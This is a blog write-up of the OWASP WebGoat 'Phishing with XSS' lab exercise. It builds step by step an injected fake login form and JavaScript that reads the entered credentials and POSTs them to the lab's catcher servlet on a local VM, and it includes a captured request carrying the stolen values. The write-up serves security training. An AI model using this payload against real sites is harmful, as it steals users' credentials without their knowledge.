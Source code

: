 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 8"
date:   2017-01-26 00:00:00 -0500
categories: webgoat
---
```

# Cross Site Scripting: Phishing with XSS
Instructions:

Below is an example of a standard search feature.
Using XSS and HTML insertion, your goal is to:

- Insert html to that requests credentials
- Add javascript to actually collect the credentials
- Post the credentials to http://localhost/webgoat/catcher?PROPERTY=yes...
- To pass this lesson, the credentials must be posted to the catcher servlet.

Nice, some more XSS. I'm actually really enjoying the XSS challenges. They seem to require a bit more craftiness than some of the other challenges, and this one looks like no exception. Login spoofing, credential grabbing, and sneaky javascript? Cool!

First off, let's try a test search and see what our attack vector looks like:

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/test-search.jpg">

Alright. So I don't see any clientside code that puts our search result on the page. I verified that by watching the request to the server and seeing it respond with the full HTML for the results page. So we're going to have to do some blackbox testing to see what we can get by any server side XSS filtering.

*Note*: I also found the full URL format for the credential catcher servlet in the server response:
```
http://localhost/WebGoat/catcher?PROPERTY=yes&user=catchedUserName&password=catchedPasswordName
```

So, if we look at the instructions, there are three separate steps in this injection:

- insertion of a fake login form
- insertion of a javascript function that will steal the creds from our inserted login form
- mechanism to send stolen creds to the servlet

Let's start with a little bit of test code. We only have one insertion point, so we have to put everything in at once. Let's try to pass a script and a login prompt to our user:

```
<script>
function testFunction() {
	return "test"
}
</script>
<br>
<input id="user" value="username" type="TEXT"><br>
<input id="password" value="pass" type="TEXT"><br>{
<button type="button" onclick='javascript:alert(testFunction()")'>Login</button>
```

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/test-pop.jpg">

Nice! We can call arbitrary javascript code we write on button press. Now let's try to harness that to grab some user data. To complete this I had to do some research about how Document Object Models and Javascript interact. On load, a browser creates a DOM of the page that is structured something like this (Credit to [W3 Schools][dom-js]):

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/dom-model.gif">

Notice how everything on the page is an element. Well we can use a javascript builtin function called ```getElementById( id )``` on the ```document``` to access any element on the page (that we specify by its unique id). We can achieve this by creating variables in our injected script to access injected elements in our document. Let's try to set the ```id``` field of our username and password inputs to a value we like, and access them with our injected javascript:

```
<script>
function userCreds() {
	var username = document.getElementById("user").value;
	var password = document.getElementById("pass").value;

	return username + ":" + password
}
</script>
<br>
<input id="user" value="username" type="TEXT"><br>
<input id="pass" value="password" type="TEXT"><br>
<button type="button" onclick='javascript:alert(`user:pass= ` + userCreds())'>Login</button>
```

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/user-pop.jpg">

Alright! So we successfully accessed the user data that we want. Now we need to send it to the servlet behind the scenes. Let's break out a friend we've seen before, ```XMLHttpRequest```, and steal some creds!

```
<script>
function stealCreds() {
	var username = document.getElementById("user").value;
	var password = document.getElementById("pass").value;

	var credURL = "http://192.168.56.101/WebGoat/catcher?PROPERTY=yes&user="+username+"&password="+password;

	var xmlHTTP = new XMLHttpRequest();
	xmlHTTP.open("POST",credURL, false);
	xmlHTTP.send(null);

	return "You were successfully logged in!";
}
</script>
<br>
<input id="user" value="username" type="TEXT"><br>
<input id="pass" value="password" type="TEXT"><br>
<button type="button" onclick='javascript:alert(stealCreds())''>Login</button>
```

Now we have a much more nefarious implementation of our script. First, it parses the data from the login fields and properly formats it into our waiting servlet url. Then we create a new ```XMLHttpRequest```, which we use to ```POST``` our stolen credentials to our servlet URL. Finally, we return the 'all clear' alert to our user so that no one is the wiser (and no one changes their password!). Let's see it in action:

```
POST /WebGoat/catcher?PROPERTY=yes&user=regularguy&password=password123 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=54&menu=900
Cookie: JSESSIONID=27BE2D33035F93B37F3998509C6AD48C; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Content-Length: 0
```

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/user-logged.jpg">

XSS'd! That was more challenging that a lot of the other problems so far, but also a lot of fun!

### References

1 [DOM Javascript][dom-js]

2 [DOM Value Accession][dom-accession]

3 [Javascript HTTP Requests][js-requests]

[dom-js]:http://www.w3schools.com/js/js_htmldom.asp
[dom-accession]:http://www.w3schools.com/js/js_htmldom_methods.asp
[js-requests]:http://stackoverflow.com/questions/247483/http-get-request-in-javascript
